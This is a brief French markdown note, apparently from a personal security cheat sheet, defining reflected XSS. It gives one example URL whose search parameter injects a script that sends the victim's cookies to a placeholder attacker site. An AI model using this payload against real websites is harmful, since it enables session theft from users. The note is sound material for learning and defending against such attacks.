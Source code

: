 # XSS reflected / XSS réflechie ou volatile

Correspond à un payload envoyé à une victime qui en la déclenchant envoie une requête à un serveur légitime qui executera le payload.

```shell
http://<vuln_website>/search?query=<script>document.location='<monsite>'+document.cookie</script>
```
